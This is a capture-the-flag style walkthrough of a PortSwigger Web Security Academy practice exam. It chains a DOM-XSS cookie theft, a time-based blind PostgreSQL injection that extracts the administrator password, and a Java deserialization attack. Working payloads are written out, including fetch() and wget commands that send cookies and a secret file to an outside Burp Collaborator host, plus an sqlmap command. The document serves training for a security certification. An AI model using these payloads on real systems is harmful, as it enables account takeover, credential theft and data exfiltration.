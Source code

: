 # Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)

![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)
dots are blocked => first bypass to get cookie => alert(document['cookie'])


![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)

Cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.

Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

![image](https://user-images.githubusercontent.com/40497633/233630036-b0f18f22-36d5-4e93-9d38-d8a63658da5e.png)


Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233630972-9d0c611e-6f37-458f-8fdc-ba2e5233c144.png)


20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233631386-ddf5a1da-c494-4942-a58d-5c53c868aa30.png)
![image](https://user-images.githubusercontent.com/40497633/233631517-fbbc06d0-1dc7-4886-ae9f-89347e25d57f.png)
![image](https://user-images.githubusercontent.com/40497633/233631598-4bd414ff-a32f-493d-b288-bebf8050dd6c.png)

![image](https://user-images.githubusercontent.com/40497633/233632259-3a0fcab8-dced-4286-bfe1-641aeeb223b5.png)

1234567891011121314151617181920 </br>
b9v9whchew y p e w t l 1 y g v

creds admin: </br>
login: administrator </br>
password: b9v9whchewypewtl1ygv </br>

Administrator account takeover!

![image](https://user-images.githubusercontent.com/40497633/233632577-10e78dca-ac22-4393-88e2-4b3161f3841c.png)


# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

- SQLi => possible - (no interactions on admin panel so only possibility in headers)
- XXE => not possible cause no interactions on admin panel
- SSRF => possible only in headers
- OS injection => possible only on headers
- Deserial => possible + (Cookie look java serialized)
- File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

extension Java deserialisation scanner => exploitation 

![image](https://user-images.githubusercontent.com/40497633/233633030-60e1c7bd-e027-457a-8f42-b6dabbf77025.png)


Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

![image](https://user-images.githubusercontent.com/40497633/233633752-42f9ab49-33e5-402b-ba27-992a27f24541.png)

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

![image](https://user-images.githubusercontent.com/40497633/233633925-7d79152e-d7c9-4f32-a3c7-8350140b6158.png)


/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.

Practical Exam Completed !

![image](https://user-images.githubusercontent.com/40497633/233634102-07d01a1c-a211-4af8-9a77-bf7a8572774e.png)

